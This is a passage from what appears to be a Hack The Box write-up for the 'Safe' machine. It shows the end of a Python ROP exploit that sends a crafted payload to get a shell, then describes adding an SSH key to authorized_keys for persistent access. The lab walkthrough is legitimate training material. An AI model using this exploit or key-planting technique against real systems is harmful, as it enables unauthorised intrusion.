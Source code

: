 ```python
payload += "BBBBBBBB"        # pop r14
payload += "CCCCCCCC"        # pop r15
payload += p64(0x00401152)   # sym.test

p.recvline()
p.sendline(payload)
p.interactive()
```

Running the exploit, I'm able to land a shell on the box:

![](/assets/images/htb-writeup-safe/user.png)

Because the SSH service is listening, I can dump my SSH public key in `/home/user/.ssh/authorized_keys`:

![](/assets/images/htb-writeup-safe/keys.png)

And then I can SSH in and get a proper shell:

![](/assets/images/htb-writeup-safe/shell.png)
